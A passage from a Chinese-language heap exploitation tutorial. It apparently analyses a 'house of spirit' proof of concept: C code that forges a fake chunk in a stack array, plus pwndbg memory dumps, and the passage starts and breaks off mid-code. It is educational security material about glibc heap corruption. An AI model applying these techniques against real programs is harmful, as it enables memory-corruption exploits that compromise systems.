 ```c
	printf("malloc(0x30): %p\n", b);

	assert((long)b == (long)&fake_chunks[2]);
}
```

## POC分析
对POC进行编译，完成之后对代码第18行下断点开始调试：

```c
	malloc(1);
```

上述代码调用malloc初始化堆区：

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1619490998657-9d331129-57ac-4e26-a161-62fc02b5965f.png)

```c
	unsigned long long *a; //pointer that will be overwritten
	unsigned long long fake_chunks[10]; //fake chunk region
```

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1619578365684-567b9690-3bc8-407f-b964-2f4c81bdc88e.png)

```c
pwndbg> x/16gx &a
0x7fffffffdd70:	0x0000000000000000	0x0000000000000000
    	        //a                 //b
0x7fffffffdd80:	0x0000000000000009	0x00007ffff7dd5660
    			//fake_chunks[0]    fake_chunks[1]
0x7fffffffdd90:	0x00007fffffffddf8	0x00000000000000f0
        		//fake_chunks[2]    fake_chunks[3]
0x7fffffffdda0:	0x0000000000000001	0x0000555555554a4d
    			//fake_chunks[4]    fake_chunks[5]
0x7fffffffddb0:	0x00007ffff7de3b40	0x0000000000000000
    			//fake_chunks[6]    fake_chunks[7]
0x7fffffffddc0:	0x0000555555554a00	0x0000555555554750
    			//fake_chunks[8]    fake_chunks[9]
0x7fffffffddd0:	0x00007fffffffdec0	0x8823772f23466500
0x7fffffffdde0:	0x0000555555554a00	0x00007ffff7a03bf7
pwndbg> 
```

接下来我们开始伪造堆块：

```c
	fake_chunks[1] = 0x40; // this is the size
	printf("Now we will overwrite our pointer with the address of the fake region inside the fake first chunk, %p.\n", &fake_chunks[1]);
	printf("... note that the memory address of the *region* associated with this chunk must be 16-byte aligned.\n");
	a = &fake_chunks[2];
```
